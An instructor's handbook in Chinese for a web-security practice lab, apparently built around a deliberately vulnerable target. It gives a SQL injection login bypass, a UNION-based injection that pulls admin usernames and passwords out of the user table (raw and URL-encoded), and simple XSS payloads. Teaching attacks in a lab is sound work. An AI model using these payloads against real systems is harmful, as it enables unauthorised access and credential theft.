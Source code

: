 # 讲师手册

## 靶场与环境准备

## 实战部分



### ![截屏2020-06-01 上午10.42.35](/Users/xingfeng.yang/Library/Application Support/typora-user-images/截屏2020-06-01 上午10.42.35.png)

### 1. sql 注入部分

#### 注入登录 

![截屏2020-06-01 上午10.43.22](/Users/xingfeng.yang/Library/Application Support/typora-user-images/截屏2020-06-01 上午10.43.22.png)

密码 `'or '1'='1`
#### 注入拿到admin用户密码

![截屏2020-06-01 上午10.49.57](/Users/xingfeng.yang/Library/Application Support/typora-user-images/截屏2020-06-01 上午10.49.57.png)

在搜索框注入：
```sql
%' or 1=1 or title like '%%' union select uid, uid as aid,  username as title, password as content, email as author_name, password as tags, create_time as create_time, create_time as update_time,uid as del from user where username like '%admin
```
需要进行url encode, url encode 之后为：
```
%25%27%20or%201%3D1%20or%20title%20like%20%27%25%25%27%20union%20select%20uid%2C%20uid%20as%20aid%2C%20%20username%20as%20title%2C%20password%20as%20content%2C%20email%20as%20author_name%2C%20password%20as%20tags%2C%20create_time%20as%20create_time%2C%20create_time%20as%20update_time%2Cuid%20as%20del%20from%20user%20where%20username%20like%20%27%25admin
```
这样密码会出现在文章列表中。

![截屏2020-06-01 上午10.50.31](/Users/xingfeng.yang/Library/Application Support/typora-user-images/截屏2020-06-01 上午10.50.31.png)

然后使用admin用户名密码登录。

![截屏2020-06-01 上午10.51.07](/Users/xingfeng.yang/Library/Application Support/typora-user-images/截屏2020-06-01 上午10.51.07.png)

### XSS 注入：
#### juice-shop 同款漏洞
```html
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```

![截屏2020-06-01 上午10.51.52](/Users/xingfeng.yang/Library/Application Support/typora-user-images/截屏2020-06-01 上午10.51.52.png)

#### 脚本注入：

```html
<a href="javascript: alert(1)">Click me!</a>
```

![截屏2020-06-01 上午10.52.16](/Users/xingfeng.yang/Library/Application Support/typora-user-images/截屏2020-06-01 上午10.52.16.png)

